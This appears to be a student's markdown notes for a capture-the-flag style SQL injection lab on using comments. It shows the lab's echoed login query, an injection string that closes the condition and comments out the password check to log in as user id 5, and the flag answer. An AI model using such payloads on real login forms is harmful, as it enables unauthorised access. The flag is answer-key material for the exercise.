

# Section 10: Using Comments

Module: 17. SQL Injection Fundamentals

---

## Questions & Answers

### 1. Login as the user with the id 5 to get the flag.

Context:
- Login with `test:test` got
```sql
  Executing query: SELECT * FROM logins WHERE (username='test' AND id > 1) AND password = '098f6bcd4621d373cade4e832627b4f6';
```
- Injection with `test' OR id = 5) # :<anything>`:


**Answer:** `cdad9ecdf6f14b45ff5c4de32909caec`

---

[Back to Module Index](./README.md)
